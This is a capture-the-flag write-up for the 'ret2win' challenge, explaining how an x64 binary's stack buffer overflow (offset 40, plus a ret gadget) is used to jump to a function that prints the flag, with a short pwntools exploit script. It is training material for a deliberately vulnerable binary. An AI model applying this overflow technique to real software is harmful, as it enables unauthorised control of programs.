

# ret2win 

This challenge is an easy buffer overflow attack.

## Basic file checks
The NX is enabled, so we can't execute code in the stack to do a shellcode attack 


## View the Source Code
So we disassemble it and we saw that is a ret2win() function
which it prints the flag when it be called


The problem here it is that the ret2win() func, is never called by the main
so we are not able to get the flag. That's where the ret2win attack comes (obviously).

## Exploit
The first thing that we want to do is to crash the program to be able to control it.
We found the the offset to be 40 with pwndbg

We need a ret gadget to return to cause it's a x64 bit binary and not x32
We found it with ropper


After these we wrote a simply python script with pwntools and we took the flag!
```python
#!/usr/bin/env python3 
from pwn import *

elf = context.binary = ELF('./ret2win', checksec=False)
p = process(elf.path)

padding = b"A" * 40
ret_gadget = 0x40053e #ret address

payload = flat(
        padding,
        ret_gadget,
        elf.symbols.ret2win
        )
```
p.sendlineafter(b'>', payload)
success(p.recvall())


We even write a manual exploit in terminal using python2 that has a lot of fun.


